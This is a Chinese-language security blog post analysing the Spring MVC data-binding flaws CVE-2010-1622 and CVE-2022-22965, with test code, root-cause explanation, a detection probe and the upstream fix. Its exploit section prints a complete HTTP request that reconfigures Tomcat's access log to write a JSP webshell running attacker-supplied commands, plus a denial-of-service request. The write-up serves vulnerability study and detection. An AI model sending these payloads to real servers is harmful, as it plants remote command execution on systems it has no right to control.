






前言
此漏洞源于云舒的一条微博，不过其实并没有达到“核弹级”，顶多是个手榴弹。 因为之前没有接触过Autobinding漏洞，正好学习一下，Spring MVC自动绑定漏洞参考这篇文章：浅析自动绑定漏洞之Spring MVC
CVE-2010-1622
CVE-2022-22965是CVE-2010-1622的绕过，CVE-2010-1622漏洞发布者原博，所以本篇文章会从CVE-2010-1622开始学习。
测试代码
创建一个JavaBean对象
public class User {
private String username;
public String getUsername() {
System.out.println("[+]调用了com.fuzz7j.controller.getUsername");
return username;
}
public void setUsername(String username) {
System.out.println("[+]调用了com.fuzz7j.controller.setUsername");
this.username = username;
}
}
绑定User到HelloController
@RestController
public class HelloController {
@RequestMapping("/")
public String index(User user) {
System.out.println(user.getUsername());
return "success";
}
}
漏洞分析
Java Beans API
java.beans.Introspector 提供了两种getBeanInfo()方法。
BeanInfo getBeanInfo(Class beanClass)
BeanInfo getBeanInfo(Class beanClass, Class stopClass)
当没有提供stopClass时，BeanInfo的PropertyDescriptor数组会包含class属性，class属性对应Object.getClass()方法。
如下输出为User.class属性：
Property: class
Property: username
我们可以进一步枚举Class.class属性：
BeanInfo bean = Introspector.getBeanInfo(Class.class);
PropertyDescriptor[] properties = bean.getPropertyDescriptors();
for (PropertyDescriptor pd : properties) {
System.out.println("Property: " + pd.getName());
}
Property: annotatedInterfaces
Property: annotatedSuperclass
Property: annotation
Property: annotations
Property: anonymousClass
Property: array
Property: canonicalName
Property: class
Property: classLoader
Property: classes
Property: componentType
Property: constructors
Property: declaredAnnotations
Property: declaredClasses
Property: declaredConstructors
Property: declaredFields
Property: declaredMethods
Property: declaringClass
Property: enclosingClass
Property: enclosingConstructor
Property: enclosingMethod
Property: enum
Property: enumConstants
Property: fields
Property: genericInterfaces
Property: genericSuperclass
Property: interface
Property: interfaces
Property: localClass
Property: memberClass
Property: methods
Property: modifiers
Property: module
Property: name
Property: nestHost
Property: nestMembers
Property: package
Property: packageName
Property: primitive
Property: protectionDomain
Property: signers
Property: simpleName
Property: superclass
Property: synthetic
Property: typeName
Property: typeParameters
Spring Beans
Spring MVC可以让开发者定义一个JavaBean对象，实现getter和setter方法，之后绑定到表单中，以方便开发人员使用。
当我们提交
http://localhost:8080/?username=test
HelloController会自动把username=test变成对象User.username的值。

这里是因为Spring MVC的自动映射功能，会自动发现User对象的public方法和字段，如果出现public的字段，就自动绑定，并且允许通过用户提交请求进行赋值。但当JavaBean对象没有public字段且没有setter方法时，则不允许赋值。
为了支持更复杂的类，Spring还支持”点表示法”。比如：user.username.lastname=test，等于：
frmObj.getUser().getUserName().setLastName("test")
但Spring Beans的CachedIntrospectionResults类在获取Bean属性时，没有指定stopClass，意味着class属性和后面的属性都可以通过HTTP请求设置。
比如通过下面请求修改ClassLoader的值。
http://localhost:8080/?class.ClassLoader=
漏洞利用
当Spring MVC在Tomcat运行时，会有一个WebappClassLoader来加载/WEB-INF/classes和/WEB-INF/lib下的类。
org.apache.catalina.loader.WebappClassLoader
一旦这个类中，出现了可以set的字段，用户就可以提交请求，改变其中的值。
比如 https://www.inbreak.net/archives/377 中提到的修改delegate属性造成DOS攻击。
http://localhost:8080/?class.classLoader.delegate=false
此漏洞具体利用方式可参考原作者文章。
修复方案
这里因为 Spring官方修复方案是将 ‘classLoader’和 ‘protectionDomain’ 加入黑名单，禁止任何class对象获取，这也是CVE-2022-22965只在jdk9+下才受影响的原因。
CVE-2022-22965
Exp分析
POST / HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
test: %
Content-Length: 503
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3c%25%7btest%7diRuntime.getRuntime().exec(request.getParameter(%22cmd%22))%3b%25%7btest%7di%3e%3c!--&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=/app/webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=test&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=00000
这里是利用Tomcat的classLoader修改org.apache.catalina.valves.AccessLogValue的属性，字段信息： 
具体利用方式为修改fileDateFormat导致Tomcat切换日志，修改默认后缀，修改日志存放目录，修改日志格式写Webshell。
添加test: %原因为写入文件不能存在%，使用占位符替换，来自 https://www.t00ls.cc/viewthread.php?tid=65239
bypass原因
jdk9开始多了一个模块化的新特性，这里的classLoader不是class获取，而是通过model对象获取的，所以绕过了CVE-2010-1622的补丁。

无损检测
参考 https://xz.aliyun.com/t/11129#toc-8 遍历嵌套属性。
发现存在DefaultAssertionStatus属性，作用为设置此类加载器的默认断言状态，参数为boolean型，默认为false。

可以通过如下POC进行测试：
http://localhost:8080/?class.module.classLoader.DefaultAssertionStatus=false
http://localhost:8080/?class.module.classLoader.DefaultAssertionStatus=666
当目标存在漏洞时，class.module.classLoader.DefaultAssertionStatus=false返回正常页面。

而class.module.classLoader.DefaultAssertionStatus=666因为参数不符合，返回400页面。

修复方案
https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15
参考链接
http://blog.o0o.nu/2010/06/cve-2010-1622.html
https://www.inbreak.net/archives/377
https://www.t00ls.cc/viewthread.php?tid=65239
https://xz.aliyun.com/t/11143
https://xz.aliyun.com/t/11129